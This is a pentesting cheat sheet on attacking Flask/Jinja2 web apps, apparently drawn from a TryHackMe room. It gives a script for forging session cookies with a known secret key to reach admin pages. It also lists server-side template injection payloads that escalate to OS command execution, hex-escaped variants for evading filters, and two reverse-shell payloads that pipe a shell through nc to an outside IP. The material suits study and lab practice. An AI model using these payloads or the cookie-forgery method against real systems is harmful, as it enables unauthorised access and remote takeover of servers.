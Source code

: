 ```yaml
---
title: Flask Jinja2 Pentesting
description: Flask is a micro web framework written in Python.
tags:
    - SSTI
    - Web
refs:
    - https://tryhackme.com/room/hipflask
date: 2023-02-16
draft: false
---
```


## Common Directories

```bash
/app.py
/main.py
/modules.py
/modules/__init__.py
/modules/admin.py
```

<br />

## Cookie Forgery

### 1. Create a Python Virtual Environment

```bash
python3 -m venv myenv
source myenv/bin/activate
```

### 2. Install Packages

```bash
pip3 install flask requests waitress
```

### 3. Create a Python Script

For instance, create “test.py”.  
Replace the **"SECRET_KEY"** value with the target Flask app's secret key.

```python
#!/usr/bin/env python3
from flask import Flask, session, request
from waitress import serve
import requests, threading, time

app = Flask(__name__)
app.config["SECRET_KEY"] = "c53ac69e07ed112ecb788eb4dc831990"

@app.route("/")
def main():
    session["auth"] = "True"
    session["username"] = "test" # SSTI may be applied with "{{ 3*7 }}"
    return "Check you cookies", 200

# Flask setup/start
thread = threading.Thread(target = lambda: serve(app, port=9000, host="127.0.0.1"))
thread.setDaemon(True)
thread.start()

# Request
time.sleep(1)
print(requests.get("http://localhost:9000/").cookies.get("session"))
```

### 4. Run the Script

```bash
python3 test.py
```

The cookie value generated.

Copy and paste it into the Cookie of the HTTP header in browser as below.

```bash
Cookie: session=<generated_cookie_value>
```

Now we can login and access to admin page e.g. /admin.  
After exploiting, deactivate the python virtual environment.

```bash
deactivate
```

<br />

## Server-Side Template Injection (SSTI)

Sometimes, website may filter specific characters.  
If so, **URL encode the payload or convert to HEX**.  
In addition, it’s recommended to send requests using **Burp Suite** because web browsers automatically update the payload.

First, try below payloads.

```txt
{{ 4*2 }}
{{ config.items() }}
```

If success, you may be able to exploit with OS command injection.

```bash
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }}

{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}

{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')() }}

{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')() }}

{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}
```

### Reverse Shell

```bash
{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc 10.0.0.1 443 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}

{{ request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f')|attr('read')() }}
```

<br />

## SSTI with Error Page

If the website displays **an error page (404, 403, etc.)** when we access to the page which does not exists, the path may be reflected in the error page. For example, when we attempt to access to **`/example.html`** which does not exist, the error page will show messages like the following.

```txt
No result for /example.html
```

As you know, we can insert the **malicious program** using **SSTI**.  
For instance, try to access **`http://example.com/{{ 2*3 }}`**.  
The error page will reflect the result of **"2*3"** as follow.

```txt
No result for 6
```

<br />


## Decode Session Cookie

The session of cookie in the Flask webapp can be decoded.

- **[Flask Session Cookie Decoder](https://www.kirsle.net/wizards/flask-session.cgi)**